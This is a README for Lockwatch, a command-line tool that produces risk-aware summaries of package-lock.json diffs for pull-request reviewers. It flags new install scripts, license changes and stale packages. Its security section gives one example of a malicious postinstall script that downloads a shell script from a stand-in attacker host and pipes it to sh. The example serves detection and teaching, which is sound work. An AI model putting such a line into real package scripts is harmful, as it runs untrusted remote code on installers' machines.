


# Lockwatch 🔍

> **Human-readable, risk-aware diffs for `package-lock.json` in pull requests**  
> Turn unreadable lockfile changes into clear, actionable insights for reviewers.

[](https://www.npmjs.com/package/lockwatch)
[](https://nodejs.org/)

---

## Table of Contents

- [Why Lockwatch?](#why-lockwatch)
- [What Problems Does It Solve?](#what-problems-does-it-solve)
- [How It Works](#how-it-works)
- [Installation](#installation)
- [Usage Examples](#usage-examples)
- [Features](#features)
- [Output Formats](#output-formats)
- [CI/CD Integration](#cicd-integration)
- [Examples](#examples)
- [Architecture](#architecture)
- [Testing](#testing)
- [Contributing](#contributing)

---

## Why Lockwatch?

### The Problem

`package-lock.json` files are **massive, complex, and change constantly**. When reviewing pull requests, developers face a critical challenge:

**❌ Current Reality:**
- Lockfiles contain thousands of lines of JSON
- Changes are buried in noise (version bumps, transitive dependencies)
- Reviewers skip lockfile reviews or approve blindly
- Security risks slip through unnoticed
- License violations go undetected
- Malicious scripts execute during install

**✅ What Lockwatch Provides:**
- **Concise summaries** instead of thousands of lines
- **Risk-focused analysis** highlighting what matters
- **Actionable insights** for reviewers
- **Zero false positives** - deterministic analysis
- **CI-ready** - designed for automation

### Real-World Impact

```diff
# Without Lockwatch - What reviewers see:
+ 15,234 lines changed in package-lock.json
+ "Looks fine, probably just dependency updates"
+ [Approve] ❌

# With Lockwatch - What reviewers see:
📦 Dependency Change Summary

• +14 new dependencies (2 direct, 12 transitive)
• ⚠️ 2 packages added lifecycle scripts
• ⚠️ 1 license changed (MIT → GPL-3.0)
• ℹ️ 2 packages unmaintained (>2 years)

Review recommended ✅
```

---

## What Problems Does It Solve?

### 1. **Security Risks from Lifecycle Scripts**

**Problem:** Packages can execute arbitrary code during `npm install` via lifecycle scripts (postinstall, preinstall, etc.). Malicious packages can:
- Exfiltrate environment variables
- Install backdoors
- Modify system files
- Access sensitive data

**Solution:** Lockwatch detects **new lifecycle scripts** added to packages, allowing reviewers to audit them before approval.

**Example:**
```json
// Suspicious package adds:
{
  "scripts": {
    "postinstall": "curl http://evil.com/script.sh | sh"
  }
}
```

Lockwatch flags this as: `⚠️ 1 package added lifecycle scripts`

### 2. **License Compliance Issues**

**Problem:** License changes can introduce copyleft licenses (GPL, AGPL) that require source code disclosure, violating company policies.

**Solution:** Lockwatch detects license changes and highlights transitions to restrictive licenses.

**Example:**
```
⚠️ 1 license changed (MIT → GPL-3.0)
```

### 3. **Unmaintained Dependencies**

**Problem:** Packages that haven't been updated in years may have:
- Unpatched security vulnerabilities
- Compatibility issues
- Abandoned maintenance

**Solution:** Lockwatch flags packages with >2 years since last publish.

**Example:**
```
ℹ️ 2 packages unmaintained (>2 years)
```

### 3. **Dependency Bloat**

**Problem:** Developers don't realize how many dependencies are added, especially transitive ones.

**Solution:** Lockwatch clearly separates direct vs transitive dependencies.

**Example:**
```
• +14 new dependencies (2 direct, 12 transitive)
```

This helps reviewers understand the true impact of adding a single package.

### 4. **Review Fatigue**

**Problem:** Reviewers can't effectively review 15,000+ line lockfile diffs, leading to:
- Blind approvals
- Missed security issues
- Compliance violations

**Solution:** Lockwatch provides a **one-page summary** with only actionable information.

---

## How It Works

Lockwatch follows a deterministic analysis pipeline:



*Figure: Complete workflow showing how Lockwatch analyzes lockfile changes to generate risk-aware reports*

### Analysis Pipeline

1. **Parse Lockfiles** - Extracts package metadata, dependencies, and version information
2. **Compute Diff** - Identifies added, removed, and modified packages
3. **Risk Analysis** - Scans for:
   - New lifecycle scripts
   - License changes
   - Unmaintained packages (>2 years)
4. **Generate Report** - Creates human-readable or machine-readable output

---

## Installation

No installation required - use directly with `npx`:

```bash
npx lockwatch
```

Or install globally for convenience:

```bash
npm install -g lockwatch
```

---

## Usage Examples

### Basic Usage

Compare current `package-lock.json` with git HEAD:

```bash
npx lockwatch
```

**Output:**
```
📦 Dependency Change Summary

• +14 new dependencies (2 direct, 12 transitive)
• −3 dependencies removed
• ⚠️ 2 packages added lifecycle scripts
• ⚠️ 1 license changed (MIT → GPL‑3.0)
• ℹ️ 2 packages unmaintained (>2 years)

Review recommended
```

### Compare Specific Files

```bash
npx lockwatch \
  --before ./old/package-lock.json \
  --after ./new/package-lock.json
```

### CI Mode (No Emojis)

```bash
npx lockwatch --ci
```

**Output:**
```
Dependency Change Summary

• +14 new dependencies (2 direct, 12 transitive)
• −3 dependencies removed
• 2 packages added lifecycle scripts
• 1 license changed (MIT → GPL‑3.0)
• 2 packages unmaintained (>2 years)

Review recommended
```

### JSON Output (Machine-Readable)

```bash
npx lockwatch --json
```

**Output:**
```json
{
  "dependencySummary": {
    "added": 14,
    "removed": 3,
    "addedDirect": 2,
    "addedTransitive": 12,
    "removedDirect": 0,
    "removedTransitive": 3
  },
  "scriptChanges": [
    {
      "packageName": "suspicious-package",
      "scripts": {
        "postinstall": "node setup.js"
      },
      "isDirect": true
    }
  ],
  "licenseChanges": [
    {
      "packageName": "example-pkg",
      "beforeLicense": "MIT",
      "afterLicense": "GPL-3.0",
      "isDirect": true
    }
  ],
  "unmaintainedPackages": [
    {
      "packageName": "old-package",
      "version": "1.0.0",
      "lastPublishDate": "2020-01-01T00:00:00.000Z",
      "yearsSincePublish": 4.2,
      "isDirect": false
    }
  ],
  "hasChanges": true,
  "reviewRecommended": true
}
```

### Git Integration

Lockwatch automatically detects git repositories and compares with HEAD:

```bash
# In a git repository
npx lockwatch  # Compares HEAD vs current package-lock.json
```

---

## Features

### 🔍 Dependency Tracking

- **Direct Dependencies** - Packages explicitly listed in `package.json`
- **Transitive Dependencies** - Dependencies of dependencies
- **Additions & Removals** - Clear tracking of what changed

### 🧾 Lifecycle Script Detection

Monitors these npm lifecycle hooks:
- `preinstall` - Runs before package installation
- `install` - Runs during installation
- `postinstall` - Runs after installation ⚠️ **High Risk**
- `prepublish` - Runs before publishing
- `prepublishOnly` - Runs only before publishing
- `prepack` / `postpack` - Runs during packaging
- `prepare` - Runs after installation and before publish

### 📜 License Change Detection

- Tracks license field changes
- Highlights transitions to copyleft licenses
- Supports string and object license formats

### 🧓 Unmaintained Package Detection

- Uses `time` field from lockfile (publish dates)
- Flags packages with >2 years since last publish
- Configurable threshold (currently 2 years)

### 🧠 Deterministic Analysis

- **No network calls** - Works offline
- **No side effects** - Read-only analysis
- **Deterministic output** - Same input = same output
- **Zero dependencies** - Pure Node.js

---

## Output Formats

### Default (Human-Readable)

Includes emojis and formatted for terminal viewing:

```
📦 Dependency Change Summary

• +14 new dependencies (2 direct, 12 transitive)
• −3 dependencies removed
• ⚠️ 2 packages added lifecycle scripts
• ⚠️ 1 license changed (MIT → GPL‑3.0)
• ℹ️ 2 packages unmaintained (>2 years)

Review recommended
```

### CI Mode (`--ci`)

Plain text, no emojis, suitable for CI logs:

```
Dependency Change Summary

• +14 new dependencies (2 direct, 12 transitive)
• −3 dependencies removed
• 2 packages added lifecycle scripts
• 1 license changed (MIT → GPL‑3.0)
• 2 packages unmaintained (>2 years)

Review recommended
```

### JSON Mode (`--json`)

Machine-readable format for programmatic processing:

```json
{
  "dependencySummary": { ... },
  "scriptChanges": [ ... ],
  "licenseChanges": [ ... ],
  "unmaintainedPackages": [ ... ],
  "hasChanges": true,
  "reviewRecommended": true
}
```

---

## CI/CD Integration

### GitHub Actions

```yaml
name: Lockwatch Analysis

on:
  pull_request:
    paths:
      - 'package-lock.json'

jobs:
  analyze:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
        with:
          fetch-depth: 0  # Need full history for HEAD comparison
      
      - name: Run Lockwatch
        run: npx lockwatch --ci
```

### GitLab CI

```yaml
lockwatch:
  image: node:18
  script:
    - npx lockwatch --ci
  only:
    - merge_requests
  changes:
    - package-lock.json
```

### CircleCI

```yaml
jobs:
  check-dependencies:
    docker:
      - image: node:18
    steps:
      - checkout
      - run: npx lockwatch --ci
```

### Output in CI

Lockwatch **never blocks builds** (exit code 0). It provides information for reviewers to make informed decisions.

---

## Examples

### Example 1: Adding a New Dependency

**Scenario:** Developer adds `lodash` to `package.json`

**Lockwatch Output:**
```
📦 Dependency Change Summary

• +1 new dependencies (1 direct, 0 transitive)
• ℹ️ 1 packages unmaintained (>2 years)

Review recommended
```

**Reviewer Action:** Check if `lodash` is the right choice (consider alternatives like `lodash-es` or native methods).

### Example 2: Suspicious Package

**Scenario:** A package adds a `postinstall` script

**Lockwatch Output:**
```
📦 Dependency Change Summary

• +5 new dependencies (1 direct, 4 transitive)
• ⚠️ 1 packages added lifecycle scripts

Review recommended
```

**Reviewer Action:** **CRITICAL** - Review the `postinstall` script before approving. This could be malicious.

### Example 3: License Change

**Scenario:** A dependency changes from MIT to GPL-3.0

**Lockwatch Output:**
```
📦 Dependency Change Summary

• +2 new dependencies (0 direct, 2 transitive)
• ⚠️ 1 license changed (MIT → GPL‑3.0)

Review recommended
```

**Reviewer Action:** Check company policy - GPL-3.0 may require source code disclosure.

### Example 4: Major Dependency Update

**Scenario:** Updating `react` from 17.x to 18.x

**Lockwatch Output:**
```
📦 Dependency Change Summary

• +45 new dependencies (1 direct, 44 transitive)
• −12 dependencies removed
• ℹ️ 3 packages unmaintained (>2 years)

Review recommended
```

**Reviewer Action:** Review breaking changes and test thoroughly.

---

## Architecture

### Module Structure

```
lockwatch/
├── src/
│   ├── cli/           # Command-line interface
│   ├── parser/        # Lockfile parsing
│   ├── diff/          # Diff computation
│   ├── analyzer/      # Risk detection
│   ├── report/        # Report generation
│   └── utils/         # Utilities (git integration)
├── tests/
│   ├── unit/          # Unit tests
│   └── integration/   # Integration tests
└── dist/              # Compiled output
```

### Data Flow



### Key Design Decisions

1. **Zero Runtime Dependencies** - Uses only Node.js built-ins
2. **Pure Functions** - No side effects, deterministic
3. **TypeScript Strict Mode** - Full type safety
4. **Exit Code 0 Always** - Inform, don't enforce (v1)
5. **CI-First Design** - Optimized for automation

---

## Testing

### Running Tests

```bash
npm test
```

### Test Structure

- **Unit Tests** - Test individual modules in isolation
- **Integration Tests** - Test complete workflows
- **Example-Based** - Tests include real-world scenarios

### Example Test

```javascript
test('detectNewScripts - finds new lifecycle scripts', () => {
  const before = new Map([...]);
  const after = new Map([...]);
  
  const changes = detectNewScripts(before, after);
  
  assert.strictEqual(changes.length, 2);
  assert.ok(changes.some(c => c.scripts.postinstall));
});
```

See `tests/` directory for complete test suite.

---

## Operating Modes

| Mode     | Behavior                | Exit Code | Use Case |
| -------- | ----------------------- | --------- | -------- |
| Default  | Human-readable with emojis | `0`       | Local development |
| `--ci`   | Plain text, no emojis   | `0`       | CI/CD pipelines |
| `--json` | Machine-readable JSON   | `0`       | Programmatic processing |

> **Note:** Lockwatch **never blocks builds in v1**. It informs — it does not enforce.

---

## Comparison with Other Tools

| Tool       | Focus               | Lockwatch Advantage     |
| ---------- | ------------------- | ---------------------- |
| `npm audit` | Vulnerabilities     | Change awareness, not just vulnerabilities |
| Dependabot | Automation          | Human-readable context, not just alerts |
| `lockfile-diff` | Basic diffs | Risk-aware analysis, not just changes |

---

## Contributing

Contributions are welcome! Please:

1. Fork the repository
2. Create a feature branch
3. Add tests for new functionality
4. Ensure all tests pass
5. Submit a pull request

### Development Setup

```bash
# Clone the repository
git clone <repo-url>
cd lockwatch

# Install dependencies
npm install

# Build
npm run build

# Run tests
npm test

# Development mode
npm run dev
```

---

## Roadmap

### v1 (Current)
- ✅ Basic dependency diff
- ✅ Lifecycle script detection
- ✅ License change detection
- ✅ Unmaintained package detection
- ✅ CI integration

### Post-v1
- 🔲 GitHub PR comments integration
- 🔲 Optional enforcement mode (block PRs)
- 🔲 pnpm / yarn support
- 🔲 Vulnerability correlation
- 🔲 Custom risk rules

---

## License

MIT

---

## Final Note

> **Lockfiles are reviewed by habit, not understanding.**

Lockwatch restores **clarity, intent, and confidence** to dependency reviews. It transforms blind approvals into informed decisions.

---

**Made with ❤️ for developers who care about security and code quality.**
